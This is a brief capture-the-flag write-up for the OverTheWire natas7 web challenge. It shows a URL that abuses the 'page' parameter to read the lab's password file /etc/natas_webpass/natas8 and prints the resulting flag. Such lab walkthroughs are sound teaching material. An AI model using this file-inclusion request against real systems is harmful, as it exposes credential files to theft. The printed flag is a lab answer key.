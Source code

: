 ```yaml
---
layout: default
title: natas7
---
```




here we can see it prints the content of the file that the param `page` gets. so, let's give him the path to the password which is `/etc/natas_webpass/natas8`
```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

**Flag:** ***`xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q`*** 
